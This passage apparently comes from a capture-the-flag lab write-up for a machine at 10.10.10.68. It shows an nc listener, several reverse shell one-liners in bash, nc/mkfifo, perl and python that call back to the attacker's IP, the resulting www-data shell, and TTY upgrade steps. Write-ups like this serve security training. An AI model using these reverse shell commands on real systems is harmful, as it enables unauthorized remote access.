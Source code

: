 Great, now let's get a real shell. I'll start a `nc` listener on port 4321 on my local machine with:

```bash
$ nc -lvnp 4321
```

And run the following line on the `phpbash` shell on the website to try to get a reverse shell:

```bash
$ bash -i >&/dev/tcp/10.10.14.31/4321 0>&1
```

Aaaaand.... nothing. Let's try something else.

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.31 4321 >/tmp/f
```

Also nothing. Maybe this one?

```bash
 $ perl -e 'use Socket;$i="10.10.14.31";$p=4321;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Also nothing. Python? 

```bash
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And that's a shell, ladies and gentlemen! _(something something try harder)_

```bash
 $ nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.68] 43200
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Upgrading Shell

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
# Background webshell with Ctrl-Z
# Now, in local shell run:
$ stty size
$ echo $SHELL $TERM
$ stty raw -echo; fg
# Now, we're back in the webshell and need to set the $TERM and $SHELL variables, as well as the stty info
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows WHATEVER_WAS_IN_stty_-a columns WHATEVER_WAS_IN_stty_-a
$ clear
```
